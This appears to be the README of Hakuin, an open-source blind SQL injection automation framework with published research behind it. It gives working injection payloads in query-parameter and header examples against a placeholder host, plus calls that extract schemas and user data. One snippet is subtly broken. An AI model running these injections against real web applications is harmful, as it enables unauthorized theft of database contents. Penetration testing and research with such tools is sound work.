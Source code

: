 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) inference optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract textual data in databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for DB content.

Our work has been presented at academic and industrial conferences:
- [IEEE Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023



## Installation
To install Hakuin, simply run:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip install .
```
Developers should set the `-e` flag to install the framework in editable mode:
```bash
pip install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start infering data, use the `Exfiltrator` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite and MySQL DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Inferring SQLite DBs
```python
from hakuin.dbms import SQLite
from hakuin import Exfiltrator, Requester

class StatusRequester(Requester):
    ...

exf = Exfiltrator(requester=StatusRequester(), dbms=SQLite())
```

##### Example 2 - Inferring MySQL DBs
```python
from hakuin.dbms import MySQL
...
exf = Exfiltrator(requester=StatusRequester(), dbms=MySQL())
```

Now that eveything is set, you can start inferring DB schemas.

##### Example 1 - Inferring DB Schemas
```python
# mode:
#   'binary_search':    Use binary search
#   'model_search':     Use pre-trained models
schema = exf.exfiltrate_schema(mode='model_search')
```

##### Example 2 - Inferring DB Schemas with Metadata
```python
# metadata:
#   True:   Detect column settings (data type, nullable, primary key)
#   False:  Pass
schema = exf.exfiltrate_schema(mode='model_search', metadata=True)
```

##### Example 3 - Inferring only Table/Column Names
```python
tables = exf.exfiltrate_tables(mode='model_search')
columns = exf.exfiltrate_columns(table='users', mode='model_search')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Inferring Textual Columns
```python
# mode:
#   'binary_search':    Use binary search
#   'adaptive_search':  Use five-gram model
#   'unigram_search':   Use unigram model
#   'dynamic_search':   Dynamically identify the best strategy. This setting
#                       also enables opportunistic guessing.
res = exfiltrate_text_data(table='users', column='address', mode='dynamic_search'):
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is maintained to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
